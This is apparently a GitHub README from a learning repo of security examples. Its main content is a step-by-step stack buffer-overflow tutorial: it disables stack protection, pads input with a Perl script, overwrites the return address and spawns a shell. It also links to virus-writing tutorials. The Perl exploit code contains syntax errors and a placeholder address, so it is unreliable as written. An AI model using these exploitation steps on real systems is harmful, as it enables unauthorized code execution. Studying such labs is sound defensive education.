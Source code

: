 ## Better be Safe than Sorry
#### A continuing updating repo of computer security examples and exploits.

1. [General Unix Vulnerabilities](#Unix_Vulnerabilities)

2. [SQL Injections](#SQL_Injections)

3. [Buffer Overflows](#Buffer_Overflows)

4. [Simple Virus](#Simple_Virus)

<a name="Unix_Vulnerabilities"></a>
#### General Unix Vulnerabilites

<a name="SQL_Injections"></a>
#### SQL Injections

<a name="Buffer_Overflows"></a>
#### Buffer Overflows
[This](http://www.tenouk.com/Bufferoverflowc/Bufferoverflow4.html) is a through and detailen example on how buffer overflow works.

Buffer overflow happens when when a program writing data to a buffer, exceeds the bounds of the buffer, causing the excess data to overflow into adjacent memory. 

From the example vulnerable code [here](https://github.com/amandazhuyilan/Better-be-Safe-than-Sorry/blob/master/buffer_overflow.c), the buffer overflow can happen at the ```strcat``` line, where the boundary of the concatenated string appended into the buffer is not checked, causing an overflowed buffer.

Steps to exploit this vulnerability and invoking a shell is as follows:

1. Complile the buffer_overflow.c with the following command, turning off the stack protection system and enabling debugging:

```gcc buffer_overflow.c -g -fno_stack_protector -o buffer_overflow```

2. Figure out how many pops it takes for us to get to the end of the buffer, usually the number is a little bigger than the buffer size (500 for this example). In this example we are going to use a perl script ```exploit.pl``` to help us generate the needed 500ish characters:

```
#!/usr/bin/perl

printf "A" x500;
```
```chmod +x exploit.pl``` to make sure it has the necessary permissions, then feed it into the ```buffer_overflow``` executable that we just compiled in gdb:
 
 ```$gdb(buffer_overflow)```
 ```$(gdb)run `exploit.pl` ```
 
Modify the number of "A"s in the perl script so that the buffer is overflowed successfully it would show up as a segmentation fault at 0x41414141. 

3. Add a ```stack.c``` that looks like this:
```
#include <stdio.h>

unsigned long get_sp()
{
	__asm__("mov %esp, %eax");
}

main()
{
	printf("SP is: %lx\n\n", get_sp());
}
```
Compile it with ```gcc -m32 -o stack```. This ```stack``` execuatble will print the current stack pointer that we will use later. Note that the stack pointer address doesn't change frequently, but it might be different if you run ```stack``` many commands away.

4. Modify ```exploit.pl``` to look like the following (also avaliable [here](https://github.com/amandazhuyilan/Better-be-Safe-than-Sorry/blob/master/buffer_overflow-exploit.pl)):
```
#!/usr/bin/perl

$RETURN_ADDRESS=0x'the sp address resulted from stack';

$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];

$address = pack("l",$RETURN_ADDRESS);  //Perl has its own built in function to modify the address to little endian

printf "A" x517$address;   //517 is what I got. Put in your own number
```

Make sure you ```chmod +x exploit.pl``` after you finished modifiying it.

5. You're almost all good to go! Type in ```buffer_overflow `exploit.pl` ```. It'll be highly likely that you will see ```segmentation fault```, this is where ```$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];``` in the ```exploit.pl``` will help modify the memory address a bit. Try ```buffer_overflow `exploit.pl -1000` ```, ```buffer_overflow `exploit.pl 1000` ``` etc. (Mine worked at ```buffer_overflow `exploit.pl -2000` ```).

If all the steps are performed in order, and right, a shell should be exploited :D



<a name="Simple_Virus"></a>
#### Simple Virus in C

[Tutorial 1](https://jakash3.wordpress.com/2013/10/09/prepending-linux-virus/)
[Tutorial 2](https://nnc3.com/mags/LJ_1994-2014/LJ/213/11185.html)






